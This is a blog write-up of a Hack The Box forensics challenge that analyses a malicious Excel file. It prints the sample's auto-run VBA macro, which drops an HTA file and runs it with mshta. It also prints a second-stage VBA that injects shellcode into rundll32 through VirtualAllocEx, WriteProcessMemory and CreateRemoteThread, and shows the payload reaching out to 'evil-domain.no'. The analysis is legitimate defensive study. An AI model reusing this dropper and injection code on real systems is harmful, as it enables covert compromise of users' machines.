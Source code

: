 +++
author = "Brian Stadnicki"
title = "HTB forensics challenge: oBfsC4t10n #93"
date = "2021-11-25"
categories = [ "htb" ]
tags = [ "reverse engineering", "forensics", "excel", "vba", "injection" ]
+++

# Introduction

I started analysing this from finding it on the malware sandbox any.run, only at the end do I notice that it's a Hack The Box challenge.

# Sample

This sample is from [any.run](https://app.any.run/tasks/0c81fc47-2bb2-4724-a1ee-fc5ebde8e4f5/).

![Preview of excel sheet](/posts/htb-challenge-93/preview.png)

Property              | Value
----------------------|---------------------------------------------------
File Type             | Microsoft Excel 97-2003 Worksheet
File Size             | 35.6 KB
MD5                   | b54c993e941836bf2c9c69948b30bcf0
SHA1                  | a3e6234b5310a3918b9e01c08badf3eb5f44a4b8 
SHA256                | 3861795ece849d6b417a3c9870a7e0a0eccd27f74e706b9242d94d5e8885b705

# VBA Extraction

Using olevba, we can view the vba code inside.

```vba
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"

    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1

    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

You can see that when the excel file is opened, the output file Environ("temp") & "\LwTHLrGh.hta" is opened and written with the output from hdYJNJmt(string), then executed using `mshta`. A `.hta` file is a Microsoft HTML Application file, which can contain VB or JS.

## Dumping

Simply allow the excel file to run with macros enabled, and find the extracted `LwTHLrGh.hta` file, in my case at `C:\Users\IEUser\AppData\Local\Temp\LwTHLrGh.hta`.

# LwTHLrGh.hta

It appears to open a shell, do something with a registry key about `VBOM`, and then add a code module to a workbook, using `xlmodule.CodeModule.AddFromString ...`.

```vba
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ""Private ""&""Type PRO""&""CESS_INF""&""ORMATION""&Chr(10)&"" ....
```

The string appears to simply be a lot of strings concatenated together with some char calls. Replace all the `""` with `"` and then simply use something like an [online vb compiler](https://www.onlinegdb.com/online_vb_compiler) to evaluate the string.

# Dynamic VBA

```vba
Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" ...
Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" ...
Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" ...
Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" ...
...
    myArray = Array(...)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
```

In the dynamically loaded VBA, we see that `rundll32.exe` is ran and `myArray` written to the process. Unusually, the process executable is ran without any arguments.

## Extraction

To extract the code which is dynamically injected into the `rundll32.exe` process, I wrote some very basic python to write it to a file. VBA allows bytes to be signed ints, but python requires them to be unsigned.

```python
with open ("out.bin", "wb") as out:
    for b in myArray:
        out.write((b & 0xff).to_bytes(1, 'little'))
```

# rundll32.exe

Statically analyzing this doesn't seem to give any useful information, and given its size of 1 KB and just calls to `ntdll.dll`, it's likely that this is just another loader that tries to hide in `rundll32.exe`. It's quite obfuscated and doesn't seem to have any meaningful structure, so I'll try to gloss over the details of how it works, life is too short for that.

Monitoring it using API Monitor, it appears that it loads some windows DLLs, calls some socket methods, and then has an error and calls windows error handling methods. I've spotted two interesting calls to `RtlUnicodeToUTF8N`, inbetween calls getting winsock registry keys and the error handling.

Module         | API
---------------|--------------------------------------------------------------------------------------
KERNELBASE.dll | RtlUnicodeToUTF8N ( NULL, 0, 0x04e0ebf0, "evil-domain.no/HTB{redacted-for-fun}", 76)
KERNELBASE.dll | RtlUnicodeToUTF8N ( "", 39, 0x04e0ebf0, "evil-domain.no/HTB{redacted-for-fun}", 76)

# Hack The Box

Looks like I accidentally found a [Hack The Box challege](https://app.hackthebox.com/challenges/93)! [Challenge completed](https://www.hackthebox.com/achievement/challenge/833022/93).
